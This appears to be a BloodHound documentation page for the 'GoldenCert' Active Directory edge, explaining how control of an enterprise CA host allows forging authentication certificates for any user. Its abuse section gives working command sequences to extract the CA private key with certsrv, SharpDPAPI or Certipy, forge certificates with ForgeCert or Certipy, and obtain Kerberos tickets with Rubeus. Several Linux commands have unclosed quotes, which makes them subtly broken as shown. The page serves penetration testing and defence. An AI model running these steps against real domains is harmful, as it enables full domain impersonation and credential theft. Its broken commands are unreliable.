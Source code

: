 ```yaml
---
title: GoldenCert
---
```


<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

The victim principal has a certificate private key that can be abused to sign "golden" certificates for authentication of any enabled principal in the AD forest of the domain.


The victim principal hosts the enrollment service of an enterprise CA, which implies it has the private key of the enterprise CA's certificate. This private key allows an attacker to sign certificates for authentication as any enabled principal in the AD forest of the domain, as the enterprise CA is trusted for NT authentication and chain up to a root CA.

It may not be possible to obtain the certificate private key if it is protected with a Trusted Platform Module (TPM) or using a Hardware Security Module (HSM). However, it may still be possible to compromise the AD forest. Administrative access to the enterprise CA host lets an attacker publish certificate templates, approve denied enrollment requests, and more. The victim principal will have an ESC7 edge to the domain if any such attack has been found possible by BloodHound.

## Abuse Info

### Windows

#### Step 1

Obtain CA certificate incl. private key - using built-in GUI (certsrv.msc)

1.  Open certsrv.msc as Administrator on the enterprise CA host.
2.  Right-click on the enterprise CA and select "All Tasks" followed by "Back up CA...".
3.  Click "Next", select "Private key and CA certificate", and select the location folder.
4.  Click "Next", and set a password.
5.  Click "Next" and click "Finish" to back up the certificate as a .p12 file.

#### Step 2

Obtain CA certificate incl. private key - using commandline tools

* Print all certificates of the host using SharpDPAPI.  The enterprise CA certificate is the one where issuer and subject are identical.
```
SharpDPAPI.exe certificates /machine
```
* Save the private key in .key file (e.g. cert.key) and the certificate in .pem file (cert.pem) in the same folder.
* Create a .pfx version of the CA certificate using certutil:
```
certutil.exe -MergePFX .\\cert.pem .\\cert.pfx
```
* Set password when prompted.

#### Step 3

Forge certificate and obtain a TGT as targeted principal.

* Forge a certificate of a target principal using ForgeCert:
```
ForgeCert.exe --CaCertPath cert.pfx --CaCertPassword "password123!" --Subject "CN=User" --SubjectAltName "roshi@dumpster.fire" --NewCertPath target.pfx --NewCertPassword "NewPassword123!"
```
* Request a TGT for the targeted principal using the certificate with Rubeus:
```
Rubeus.exe asktgt /user:Roshi /domain:dumpster.fire /certificate:target.pfx /password:NewPassword123!
```
### Linux

#### Step 1

* Back up the CA certificate with the credentials of a user with admin access on the enterprise CA host using Certipy.  The enterprise CA certificate is the one where issuer and subject are identical.
```
certipy ca -backup -ca 'dumpster-DC01-CA' -username jd@dumpster.fire -password 'Password123!
```
#### Step 2

Forge a certificate of a target principal:
```
certipy forge -ca-pfx dumpster-DC01-CA.pfx -upn Roshi@dumpster.fire -subject 'CN=Roshi,OU=Users,OU=Tier0,DC=dumpster,DC=fire
```
#### Step 3

Request a TGT for the targeted principal using the certificate against a given DC:
```
 certipy auth -pfx roshi_forged.pfx -dc-ip '192.168.100.10
```
## Opsec Considerations

When an attacker abuses a privilege escalation or impersonation primitive that relies on this relationship, it will necessarily result in the issuance of a certificate. A copy of the issued certificate will be saved on the host that issued the certificate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
* [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

